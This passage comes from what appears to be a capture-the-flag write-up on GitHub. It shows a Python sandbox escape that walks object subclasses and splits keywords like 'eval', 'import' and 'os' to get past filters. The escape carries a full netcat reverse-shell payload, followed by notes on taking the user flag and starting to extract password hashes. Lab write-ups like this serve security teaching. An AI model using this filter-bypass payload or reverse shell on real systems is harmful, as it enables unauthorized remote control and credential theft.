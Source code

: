 This demonstrates that despite restrictive keyword filtering, **runtime object graph traversal combined with dynamic string reconstruction** allows us to access restricted functionalities and execute arbitrary code.

--- 
### Initial foothold

Now, we are leveraging the same technique to **establish a reverse shell**.

The code snippet below outlines how we modify the payload to execute a reverse shell :

```python
for i in range(100):
    try:
        x = ''.__class__.__bases__[0].__subclasses__()[i].__init__.__globals__['__buil'+'tins__']
        if 'ev'+'al' in x:
            print(x['ev'+'al']('__imp'+'ort__("o'+'s").po'+'pen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f").re'+'ad()'))
            break
    except Exception as e:
        continue

```

Notice that critical keywords such as `eval`, `import`, and `os` are deliberately split and reconstructed at runtime.
This technique helps to bypass any basic keyword filtering or blacklisting mechanisms that may be implemented by the application to prevent command injection or code execution.

When executed, this payload results in a reverse shell connection being established between the target machine and our local machine (as defined by `<LHOST>` and `<LPORT>`).
This enables us to interact with the target system through a shell, thus gaining unauthorized control.

![Capture d'écran 2025-04-26 145457](https://github.com/user-attachments/assets/fb63a532-24af-4577-a5f5-285211fac3a8)

After executing the payload, we successfully triggered the reverse shell.
We can see that we are connected as `app-producted` user : 

![Capture d'écran 2025-04-26 145828](https://github.com/user-attachments/assets/153100ef-e0a1-46dc-867d-b7591b77dc6f)

---
### User flag

And we can get the `user` flag : 

![Capture d'écran 2025-04-26 145934](https://github.com/user-attachments/assets/e35baee3-ac5b-4fe3-950a-07e04f02ddcb)

Upon inspecting the `app.py` source code, we observe that the application relies on a `database.db` file for data storage :

![Capture d'écran 2025-04-26 151457](https://github.com/user-attachments/assets/625bf722-6fb6-44ca-a111-10d134a5d4ec)

From this database, we are able to extract the password hashes of two users :
